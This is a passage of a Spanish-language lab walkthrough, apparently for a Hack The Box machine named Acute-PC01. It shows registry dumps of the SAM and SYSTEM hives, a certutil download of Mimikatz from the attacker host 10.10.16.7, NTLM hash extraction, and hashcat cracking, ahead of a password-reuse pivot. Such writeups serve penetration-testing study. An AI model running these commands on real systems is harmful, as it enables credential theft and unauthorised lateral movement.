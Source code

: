 ```powershell
reg save HKLM\SYSTEM C:\Utils\SYSTEM

reg save HKLM\SAM C:\Utils\SAM
```

<figure><img src="../../../../../.gitbook/assets/3049_vmware_MEPZjY2pjB.png" alt=""><figcaption></figcaption></figure>

Una vez obtengamos la copia de los archivos _**SAM/SYSTEM**_ procederemos a utilizar la herramienta de _**Mimikatz**_ para extraer los hashes de la SAM desde la propia máquina víctima.

Para ello, procederemos a pasarnos el binario de _**Mimikatz**_ desde nuestra Kali al equipo comprometido.

```bash
python3 -m http.server 80

certutil.exe -f -urlcache -split http://10.10.16.7/mk.exe C:\Utils\mk.exe
```

<figure><img src="../../../../../.gitbook/assets/3048_vmware_37vvJzNCC6.png" alt=""><figcaption></figcaption></figure>

Al ejecutar el _**Mimikatz**_ procederemos a hacer el DUMP de la SAM y verificaremos que hemos logrado obtener los hashes NTLM de los usuarios locales del equipo _**Acute-PC01**_.

Nos guardaremos en un achivo el hash NTLM del usuario 'Administrator'.

```powershell
mk.exe

lsadump::sam /SYSTEM:C:\Utils\SYSTEM /SAM:C:\Utils\SAM
```

<figure><img src="../../../../../.gitbook/assets/3050_vmware_sGVoiiSOfv.png" alt=""><figcaption></figcaption></figure>

### Cracking Hashes

Procederemos a intentar crackear el hash NTLM obtenido del usuario 'Administrator' con el objetivo de obtener la contraseña en texto plano y posteriormente revisar si algún usuario reutiliza estas credenciales.

Para ello, a través de _**hashcat**_ intentaremos crackear el hash. En este caso, logra crackearlo correctamente.

```bash
hashcat -a 0 -m 1000 hashes /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../../../.gitbook/assets/3051_vmware_lWsjZf7qiL.png" alt="" width="494"><figcaption></figcaption></figure>

### Password Reuse - Pivoting to awallace&#x20;

De la lista de usuarios que disponemos, solamente nos quedan 3 usuarios los cuales no disponemos de sus credenciales de acceso. Por lo tanto, deberemos intentar validar con alguno de esos tres usuarios si las credenciales que disponemos se reutilizan en alguno de ellos.

<figure><img src="../../../../../.gitbook/assets/3052_vmware_QBysM49Mqe.png" alt=""><figcaption></figcaption></figure>

